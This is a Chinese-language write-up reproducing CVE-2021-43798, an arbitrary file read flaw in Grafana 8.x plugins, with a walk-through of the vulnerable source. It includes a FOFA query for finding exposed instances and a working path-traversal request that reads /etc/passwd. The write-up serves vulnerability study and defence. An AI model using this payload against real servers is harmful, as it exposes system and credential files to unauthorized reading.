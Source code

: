 # Grafana plugins 任意文件读取漏洞 CVE-2021-43798

## 漏洞描述

Grafana存在任意文件读取漏洞，通过默认存在的插件，可构造特殊的请求包读取服务器任意文件

## 漏洞影响

```
Grafana 8.x
```

## FOFA

```
app="Grafana_Labs-公司产品"
```

## 漏洞复现

登录页面

![image-20220524145544871](./images/202205241455924.png)

下载源码进行本地分析

```
https://codeload.github.com/grafana/grafana/zip/refs/tags/v8.3.0
```

根据漏洞找到 api.go 中的请求路径

![](./images/202205241456202.png)

```
r.Get("/public/plugins/:pluginId/*", hs.getPluginAssets)
```

跟踪对应的 getPluginAssets 方法

![](./images/202205241456015.png)

从请求路径中获取 `/public/plugins/` 后的参数赋值给 `pluginID,` 然后再被拼接至 `pluginFilePath` 进入文件读取片段

```
requestedFile := filepath.Clean(web.Params(c.Req)["*"])
pluginFilePath := filepath.Join(plugin.PluginDir, requestedFile)
```

![](./images/202205241456301.png)

也就是说通过默认存在的插件来拼接文件路径构造请求进行文件读取

```
plugin, exists := hs.pluginStore.Plugin(c.Req.Context(), pluginID)
if !exists {
		c.JsonApiErr(404, "Plugin not found", nil)
		return
	}
```

插件路径 `public/app/plugins/panel`

![](./images/202205241456061.png)

构造请求

```
/public/plugins/welcome/../../../../../../../../../etc/passwd
```

![](./images/202205241456571.png)